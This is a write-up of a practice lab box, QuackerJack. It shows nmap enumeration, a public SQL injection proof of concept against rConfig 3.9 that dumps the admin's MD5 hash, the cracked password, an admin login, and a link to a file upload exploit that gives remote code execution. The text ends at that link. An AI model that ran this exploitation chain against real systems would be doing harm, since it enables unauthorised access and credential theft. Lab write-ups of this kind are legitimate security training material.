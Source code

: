 ## First Enumerating with nmap

```shell
# Nmap 7.94SVN scan initiated Fri Mar  8 15:34:35 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 21,22,80,111,139,445,3306,8081 -Pn 192.168.185.57
Nmap scan report for 192.168.185.57
Host is up (0.20s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:ec:75:8d:86:9b:a3:0b:d3:b6:2f:64:04:f9:fd:25 (RSA)
|   256 b6:d2:fd:bb:08:9a:35:02:7b:33:e3:72:5d:dc:64:82 (ECDSA)
|_  256 08:95:d6:60:52:17:3d:03:e4:7d:90:fd:b2:ed:44:86 (ED25519)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Apache HTTP Server Test Page powered by CentOS
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
8081/tcp open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: 400 Bad Request
Service Info: Host: QUACKERJACK; OS: Unix

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-03-08T14:35:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h40m52s, deviation: 2h53m15s, median: 50s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: quackerjack
|   NetBIOS computer name: QUACKERJACK\x00
|   Domain name: \x00
|   FQDN: quackerjack
|_  System time: 2024-03-08T09:35:43-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  8 15:35:30 2024 -- 1 IP address (1 host up) scanned in 54.94 seconds

```


## Enumerating web

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0533edb6-ef6b-422d-ac5f-7c6b52afcf36)

a web server running on port `8081`, opening it on a browser, we got redirected to a login page. And we can see the web app is running `rconfig` service.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cf554c2d-771c-42ce-bb0e-e297665eeafc)

did some research and found out exploits for the `rconfig` service. [exploit](https://github.com/v1k1ngfr/exploits-rconfig/)

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/QuakerJack]
└─$ python sqli.py https://192.168.185.57:8081
rconfig 3.9 - SQL Injection PoC
[+] Triggering the payloads on https://192.168.185.57:8081/commands.inc.php
[+] Extracting the current DB name :
rconfig
[+] Extracting 10 first users :
admin:1:dc40b85276a1f4d7cb35f154236aa1b2
Maybe no more information ?
Maybe no more information ?
Maybe no more information ?
Maybe no more information ?
[+] Extracting 10 first devices :
Maybe no more information ?
Maybe no more information ?
[*Snip*]
Maybe no more information ?
Done
```
ran the sqli exploit, we are able to extract the admin password md5 hash 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/50ffafc2-ba47-4eec-a994-0d9085378ec5)

cracked the password hash `abgrtyu`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6e8dc008-869e-4d1d-9281-fa857cdbad51)

logged in as `admin` success using the password cracked.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1c8a9719-c1b9-458d-9183-6f4df3af3ead)

further research, found a file upload POC to RCE.. [POC](https://gist.github.com/farid007/9f6ad063645d5b1550298c8b9ae953ff)


